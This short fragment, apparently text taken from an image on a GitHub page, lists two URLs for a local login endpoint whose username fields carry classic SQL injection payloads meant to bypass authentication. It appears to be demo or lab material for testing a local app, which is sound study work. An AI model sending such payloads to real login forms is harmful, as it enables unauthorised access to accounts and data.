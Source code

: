 1. http://127.0.0.1:5000/login?username=admin'--&password=test

2. http://127.0.0.1:5000/login?username=admin' OR '1'='1&password=test

